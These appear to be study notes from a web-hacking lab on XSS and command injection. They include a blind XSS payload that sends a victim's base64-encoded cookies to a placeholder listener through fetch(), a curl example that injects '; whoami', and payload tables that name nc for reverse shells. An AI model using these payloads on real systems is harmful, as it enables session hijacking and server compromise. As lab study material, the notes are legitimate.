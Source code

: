 

## Reflected (Client-side) XSS

javascript that is run on the client-side end of the web application. 

>These are most commonly found when the server doesn't sanitize ***search*** data. 


## Blind XSS

```javascript
// Exits Textarea 
</textarea> 
// Payload with callback to a nc listener
<script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>
```
- `fetch()` command makes an HTTP request.
- `?cookie=` is the query string containing the victim’s cookies.
- `btoa()` command base64 encodes the victim’s cookies.
- `document.cookie` accesses the victim’s cookies for the Acme IT Support Website.

---
# Command Injection

## Detecting Blind Command Injection

- use payloads that will cause some time delay. For example, the `ping` and `sleep` command

- you can tell the web application to execute commands such as `whoami` and redirect that to a file. We can then use a command such as `cat` to read this newly created file’s contents.

a simple curl payload to an application is possible for command injection.
`curl http://vulnerable.app/process.php%3Fsearch%3DThe%20Beatles%3B%20whoami`

## Useful Payloads
### Linux
| **Payload** | **Description** |
| ---- | ---- |
| `whoami` | See what user the application is running under. |
| `l`s | List the contents of the current directory. You may be able to find files such as configuration files, environment files (tokens and application keys), and many more valuable things. |
| `ping` | This command will invoke the application to hang. This will be useful in testing an application for blind command injection. |
| `sleep` | This is another useful payload in testing an application for blind command injection, where the machine does not have `ping` installed. |
| `nc` | Netcat can be used to spawn a reverse shell onto the vulnerable application. You can use this foothold to navigate around the target machine for other services, files, or potential means of escalating privileges. |
### Windows
| **Payload** | **Description** |
| ---- | ---- |
| `whoami` | See what user the application is running under. |
| `dir` | List the contents of the current directory. You may be able to find files such as configuration files, environment files (tokens and application keys), and many more valuable things. |
| `ping` | This command will invoke the application to hang. This will be useful in testing an application for blind command injection. |
| `timeout` | This command will also invoke the application to hang. It is also useful for testing an application for blind command injection if the `ping` command is not installed. |
